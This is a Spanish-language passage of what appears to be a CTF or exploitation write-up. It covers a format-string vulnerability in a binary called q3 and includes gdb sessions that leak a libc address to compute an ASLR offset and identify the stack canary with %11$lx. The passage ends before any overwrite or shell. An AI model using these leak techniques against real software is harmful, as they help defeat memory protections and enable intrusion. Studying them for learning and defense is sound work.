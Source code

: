 En la octava salida vemos las 4 As que hemos introducido **(0x41414141)** luego podremos ser capaces de **'sobreescribir'** direcciones de memoria, las salidas que empizan por **0x7f** corresponden con direcciones de memoria de la libc luego podremos leakear para calcular el offset **(ASLR)** y las salidas 11 y 19 parecen ser el **canary**.

Sabiendo esto, podemos trazar el plan:
1. Leakear una dirección de la libc y comprobar el offset.
2. Descubrir si la salida 11 o 19 corresponden con el canary.

## LIBC LEAK
Usando gdb vamos a leakear una dirección de la libc **(%2$lx)** y buscar el offset de dicha salida:

```gdb
gdb-peda$ r                                                                                           
Starting program: /root/q3                                                                            
Enter name : %2$lx                                                                                    
Hello                                                                                                 
7ffff7dd3780                                                                                          
Enter sentence : ^C                                                                                   
Program received signal SIGINT, Interrupt.
gdb-peda$ vmmap
Start              End                Perm      Name
[...]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp      /lib/x86_64-linux-gnu/libc-2.23.so
[...]
gdb-peda$ p/x 0x07ffff7dd3780 - 0x07ffff7a0d000
$3 = 0x3c6780
```

Ejecutamos el programa introduciendo **%2$lx** y obtenemos la dirección de memoria: **0x07ffff7dd3780**, ahora miramos con **vmmap** el comienzo de la **libc: 0x07ffff7a0d000**.

Calculando la diferencia entre ambas direcciones obtendremos el offset de la segunda dirección que leakeamos y así podremos calcular en tiempo de ejecución la dirección de la libc bypasseando el **ASLR**: `0x07ffff7dd3780 - 0x07ffff7a0d000 = 0x3c6780`.

## CANARY
Para calcular si el canario corresponde con la salida 11 o 19 del **format string** podemos usar **gdb** de nuevo. Basta con introducir **%11$lx y %19$lx** y comprobar, con un breakpoint, el valor del canario. Si coincide con alguno de los dos, ya podremos leakear facilmente el canario.
### Salida 11
```gdb
gdb-peda$ b * 0x55555555481e
Breakpoint 1 at 0x55555555481e
gdb-peda$ r
Starting program: /root/q3 
Enter name : %11$lx
Hello
89e2b68ae1c23f00
Enter sentence : A

Breakpoint 1, 0x000055555555481e in main ()
gdb-peda$ p $rcx                                                                                  
$2 = 0x89e2b68ae1c23f00
```
